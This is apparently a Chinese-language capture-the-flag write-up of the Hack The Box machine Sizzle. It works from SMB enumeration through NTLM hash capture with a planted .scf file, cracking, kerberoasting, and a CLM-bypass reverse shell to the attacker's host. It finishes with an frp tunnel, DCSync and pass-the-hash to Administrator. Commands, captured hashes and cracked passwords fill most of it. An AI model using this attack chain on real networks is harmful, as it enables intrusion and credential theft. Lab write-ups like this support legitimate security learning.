

# README

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.103
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 16:45 CST
Nmap scan report for 10.10.10.103
Host is up (0.31s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
5986/tcp  open  wsmans
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49678/tcp open  unknown
49690/tcp open  unknown
49691/tcp open  unknown
49693/tcp open  unknown
49696/tcp open  unknown
49706/tcp open  unknown
49710/tcp open  unknown
49717/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.17 seconds

```

```shell
sudo nmap -p 21,53,80,135,139,389,443,445,464,593,636,3268,3269,5985,5986,9389 -sC -sV  10.10.10.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 16:46 CST
Nmap scan report for 10.10.10.103
Host is up (0.43s latency).

PORT     STATE SERVICE           VERSION
21/tcp   open  ftp               Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2023-09-16T08:48:22+00:00; +1s from scanner time.
443/tcp  open  ssl/http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods:
|_  Potentially risky methods: TRACE
| tls-alpn:
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2023-09-16T08:48:21+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2023-09-16T08:48:21+00:00; 0s from scanner time.
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2023-09-16T08:48:22+00:00; +1s from scanner time.
3269/tcp open  globalcatLDAPssl?
|_ssl-date: 2023-09-16T08:48:22+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2023-09-16T08:48:21+00:00; 0s from scanner time.
|_http-title: Not Found
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-09-16T08:47:42
|_  start_date: 2023-09-16T08:36:00
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.22 seconds

```

```shell
htb.local
sizzle.htb.local
```


### 445端口

```shell
smbmap -H 10.10.10.103 -u guest

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.103:445	Name: 10.10.10.103
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	CertEnroll                                        	NO ACCESS	Active Directory Certificate Services share
	Department Shares                                 	READ ONLY
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share
	Operations                                        	NO ACCESS
	SYSVOL                                            	NO ACCESS	Logon server share


```

得到一系列的用户名

```shell
amanda
amanda_adm
bill
bob
chris
henry
joe
jose
lkys37en
morgan
mrb3n
```

然后就是知识盲区。

（因为系统的原因没有成功mount）

通过挂载可以更方便的操作：

```shell
mount -t cifs "//10.10.10.103/Department Shares" /mnt
```

查找可写的目录：

```shell
find . -type d | while read directory; do touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf; mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/0xdf; done
./Users/Public - write file
./Users/Public - write directory
./ZZ_ARCHIVE - write file
./ZZ_ARCHIVE - write directory
```

往/Users/Public里面写文件几分钟后会被删除，即会定时访问此文件夹并删除所有文件。

因此考虑NTLM Relay中的.scf文件：

首先启动REsponder.py：

```shell
sudo python2 Responder.py -i 10.10.14.14 -wrfv


```

写evil.scf：

```shell
[Shell]
Command=2
IconFile=\\10.10.14.14\\pwn.ico
[Taskbar]
Command=ToggleDesktop
```

收到：

```shell
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:db80593a428122ee:F106CF0D023B250EC85C765E46F28047:0101000000000000C0653150DE09D20173E22EE2C0C1F3EF000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000100000000200000992C45A038172D6C22863A24A02D842CA7416B21814D9B7AF739DE479961DD0E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003400000000000000000000000000
```


hashcat爆破出来结果：

```shell
hashcat -m 5600 hash.txt /Users/feng/many-ctf/rockyou.txt --force 
AMANDA::HTB:7673feda34579767:0c59fb76a597d53bdb7c15f8d67efe9a:0101000000000000c0653150de09d201722b3abf70657230000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d20106000400020000000800300030000000000000000100000000200000992c45a038172d6c22863a24a02d842ca7416b21814d9b7af739de479961dd0e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000:Ashare1972
```

amanda:Ashare1972


### 80端口

amanda:Ashare1972可以登录上80端口的/certsrv目录，

生成：

```shell
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

点击：


在中间的框里天上csr，然后请求。


```shell
evil-winrm -i 10.10.10.103  -S  -k amanda.key  -c certnew.cer
```

但是连上了upload不了bloodHound，奇奇怪怪的报错。

只能拿python版本的弄：

```shell
python3 bloodhound.py  -u amanda -p 'Ashare1972' -d htb.local --zip -c all -ns 10.10.10.103
```


但是也没有什么发现。


原来报错的信息：

```shell
Cannot invoke method. Method invocation is supported only on core types in this language mode.
```

查一下可能是因为PS的语言模式：

```shell
*Evil-WinRM* PS C:\Users\amanda\Documents> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

发现是受限语言模式，要想办法变成完整语言模式。

```shell
iwr -uri  http://10.10.14.14:39554/PsBypassCLM.exe -outfile PsBypassCLM.exe
```

```shell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.14 /rport=39502 c:\users\amanda\appdata\local\temp\PsBypassCLM.exe
```

比较逆天的时候nc那边不显示连接，直接输入命令才发现已经弹回来了。

```shell
nc -lv 39502
whoami
htb\amanda
PS C:\Users\amanda\Documents>
```


## amanda用户

查看端口（因为有些端口可能没有暴露在外）：

```shell
PS C:\Users\amanda\Documents> netstat -ap tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:21             sizzle:0               LISTENING
  TCP    0.0.0.0:80             sizzle:0               LISTENING
  TCP    0.0.0.0:88             sizzle:0               LISTENING
  TCP    0.0.0.0:135            sizzle:0               LISTENING
  TCP    0.0.0.0:389            sizzle:0               LISTENING
  TCP    0.0.0.0:443            sizzle:0               LISTENING
  TCP    0.0.0.0:445            sizzle:0               LISTENING
  TCP    0.0.0.0:464            sizzle:0               LISTENING
  TCP    0.0.0.0:593            sizzle:0               LISTENING
  TCP    0.0.0.0:636            sizzle:0               LISTENING
  TCP    0.0.0.0:3268           sizzle:0               LISTENING
  TCP    0.0.0.0:3269           sizzle:0               LISTENING
  TCP    0.0.0.0:5985           sizzle:0               LISTENING
  TCP    0.0.0.0:5986           sizzle:0               LISTENING
  TCP    0.0.0.0:9389           sizzle:0               LISTENING
  TCP    0.0.0.0:47001          sizzle:0               LISTENING
  TCP    0.0.0.0:49664          sizzle:0               LISTENING
  TCP    0.0.0.0:49665          sizzle:0               LISTENING
  TCP    0.0.0.0:49666          sizzle:0               LISTENING
  TCP    0.0.0.0:49667          sizzle:0               LISTENING
  TCP    0.0.0.0:49677          sizzle:0               LISTENING
  TCP    0.0.0.0:49688          sizzle:0               LISTENING
  TCP    0.0.0.0:49689          sizzle:0               LISTENING
  TCP    0.0.0.0:49690          sizzle:0               LISTENING
  TCP    0.0.0.0:49693          sizzle:0               LISTENING
  TCP    0.0.0.0:49699          sizzle:0               LISTENING
  TCP    0.0.0.0:49712          sizzle:0               LISTENING
  TCP    0.0.0.0:64641          sizzle:0               LISTENING
  TCP    10.10.10.103:53        sizzle:0               LISTENING
  TCP    10.10.10.103:139       sizzle:0               LISTENING
  TCP    10.10.10.103:5986      10.10.14.14:62817      ESTABLISHED
  TCP    10.10.10.103:62267     10.10.14.14:39502      ESTABLISHED
  TCP    127.0.0.1:53           sizzle:0               LISTENING
```

发现了88端口，尝试Kerberoasting攻击，

但是外网访问不了，一开始想frp代出来结果执行说 This program is blocked by group policy，我以为是程序的问题。

于是换了Rubeus.exe：

```shell
iwr -uri http://10.10.14.14:39554/Rubeus.exe -outfile Rubeus.exe
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

结果还是执行不了，看wp才发现原来是目录的问题，去c:\windows\temp就没这个问题：

```shell
PS C:\windows\temp> .\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /outfile:hash.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Searching path 'LDAP://htb.local' for Kerberoastable users

[*] Total kerberoastable users : 1


[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 6:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\windows\temp\hash.txt

[*] Roasted hashes written to : C:\windows\temp\hash.txt
PS C:\windows\temp> type hash.txt
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle*$0F0859A9C66D864CBF5123E5948D36D8$0EA901CC866A6B360ED862BAFEA5A9154A9AD880372CC3C3F912F2F77C9A4352881FC515C460EA8DF91D01FE2B662DBA3EA11BDB84ACFFFA0EC35C666C04857D73077CFADB30D5B5E3FFD764E2761BE4B31AFBE04FB2A44A6C7650125CF914804661D7DBBE940AA5033E048566249720E526E1B99FF7DD3E2A930B99ADB3509BD54417CCE78C0716CF8AD2AA905FA04E037EF3A0708473197FB2581EFB83ECBF26DD0411E725376D6EDBC8B2C0570FA93B4B2901DCA2BD5269D236F7D1E3ADA18069CD9E237DE917310C0F55E2C6E82E3F957C844B28F1B170FE0D37561DA1CB5055A211A73E1EFB62334F099888412A670B6CC53F71AFA897C5F34281D27C628DEB23A965CAE360BCAA4FAAF5C3EE8607F8F15A7196B0C7D439301AEBA21E88D831EBA4A8DD3697F6F8A2500E44FBA92AFE1801132539E62B2B3732F5E6A0D096BCF7DB1F83C87CEEBAEDCC0EB3747BE1959A2509A3B23B2C91DEFE288C06A67541963EA1E1208352D786D51B95199AB23EB59591CC798470900DB108D8F8B2DA806C280CEB7170F1A4C82C9DB0DD7268786A65264055F51BA46420702541DCC4488238A7F96344FA472E835C7676588D43F44E77AD2B804A9B6E4088D984ADE8E0B55393CB658072E5878A438A6F844D59FC4B7FAF5AA4FE70B609BB11E5A2263C589B5BBB9F600D1E63938525640913ED27A8B34CFEFC07C0C82DF22CEC891AADE2A0942D74353DB011734CBD16B3994BF7F2D2F7EAA72ACEB50B524459E4153F55DC2F2456C634A8E016582DAE4647C226CF641C6784796B371F270B14D2A575B7B71F9654B2ED970E510255E3949A53B62311A66F7804AA821971AFCD0C455ABF295B123F654AEA6AADF1C7239C186C01684B3324F513B292DA6FBC5ED3B5AA6897976F297BF95DCA9C29A082FAB4A126F7E620178C44328C2240C6CD24944ABFF479B49C0AB369EA76CF0C204823C76F95E14BCABCE03C4AE28FFCB7CB5F03126E7BBA0291E1149AD459983E3698CB160247FE97E77D9F55DB67DD89F1AE442C776B5EE4D7CFB28EEFBB316758921FEC7F2C6A461BF2F566DFBF9E3414838B4746B59C7FBFB35E7ADE4EF0D366909998615F381D0C1BDD597208AB209516FB4428002D6895722897E294E0753AD7224DA63C5F74788DAFF25A110AA0B8D927A12987658CC479D10182C9121CEECCF461901D3FF6CAB9ADDDA480A677120EC53FC5681EF67D57F9462A774CB2E6364003EECBD791081D505F97406096A23157663F434A10E5283A010C0890D25DD4E9553A6102050F4833A6F8703CA44EFEBABAEF193BD185C3B0441A58712C835A7300440F43A4C6E2DFF5D11A25101ECC4014C5A046
```


再尝试frp。frps.ini：

```shell
[common]
# frp监听的端口，默认是7000，可以改成其他的
bind_port = 37000
# 授权码，请改成更复杂的
#token = 52010  # 这个token之后在客户端会用到

# frp管理后台端口，请按自己需求更改
dashboard_port = 37500
# frp管理后台用户名和密码，请改成自己的
dashboard_user = feng
dashboard_pwd = feng
enable_prometheus = true

```

frpc.ini：

```shell
[common]
server_addr = 10.10.14.14
server_port = 37000

[windows]
type = tcp
#local_ip = 10.10.10.103
#local_port = 88
remote_port = 6000
plugin = socks5

```

开个sockets5。

```shell
PS C:\windows\temp> iwr -uri http://10.10.14.14:39554/frpc.ini -outfile frpc.ini
PS C:\windows\temp> iwr -uri http://10.10.14.14:39554/frpc.exe -outfile frpc.exe
PS C:\windows\temp> .\frpc.exe -c frpc.ini
```


```shell
./frps -c frps.ini
.\frpc.exe -c frpc.ini
```

设置/etc/proxychains.conf：

```shell
socks5 127.0.0.1 6000
```

```shell
proxychains4 python3.10 GetUserSPNs.py -request -dc-ip 10.10.10.103 htb.local/amanda:Ashare1972
```


爆破hash：

```shell
hashcat -m 13100 hash.txt /Users/feng/many-ctf/rockyou.txt --force
```

得到密码mrlky:Football#7

## mrlky用户

evil-winrm用户名密码连不上去，需要之前的步骤重新生成一下.cer：

```shell
openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr
```

这时候去访问certsrv目录的时候需要以mrlky登录才可以，怎么换用户登录我也不知道，我是换了一个浏览器。

```shell
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents> whoami
htb\mrlky
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents>
```

继续看BloodHound：



发现mrlky可以DCSync攻击：

```shell
python3.10 secretsdump.py  'htb/mrlky:Football#7@10.10.10.103' -just-dc
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:e48694323b67edd24608bb34ef8cf5ea:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:f5c0ebfb0c001e2940ff77f4376ab9f46a8ac19c48c50e5524575079e36a4f57
SIZZLE$:aes128-cts-hmac-sha1-96:e7533b9cd508ae0bd70c437797e56852
SIZZLE$:des-cbc-md5:a7d070755b1f9eb0
[*] Cleaning up...
```

## administrator

```shell
python3.10 psexec.py htb/Administrator@10.10.10.103 -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file EFhqGxNv.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service gvvs on 10.10.10.103.....
[*] Starting service gvvs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\

C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 9C78-BB37

 Directory of C:\Users

07/11/2018  05:59 PM    <DIR>          .
07/11/2018  05:59 PM    <DIR>          ..
07/02/2018  04:29 PM    <DIR>          .NET v4.5
07/02/2018  04:29 PM    <DIR>          .NET v4.5 Classic
08/19/2018  03:04 PM    <DIR>          administrator
09/30/2018  05:05 PM    <DIR>          amanda
07/02/2018  12:39 PM    <DIR>          mrlky
07/11/2018  05:59 PM    <DIR>          mrlky.HTB
11/20/2016  09:24 PM    <DIR>          Public
07/03/2018  10:32 PM    <DIR>          WSEnrollmentPolicyServer
07/03/2018  10:49 PM    <DIR>          WSEnrollmentServer
               0 File(s)              0 bytes
              11 Dir(s)  14,709,379,072 bytes free

C:\Users> type administrator\Desktop\root.txt
b4204212c2645460d6876a93c34332c0

C:\Users> type mrlky\Desktop\user.txt
b86d5af3bb708eb75a8a1e9c577410bd

C:\Users>
```

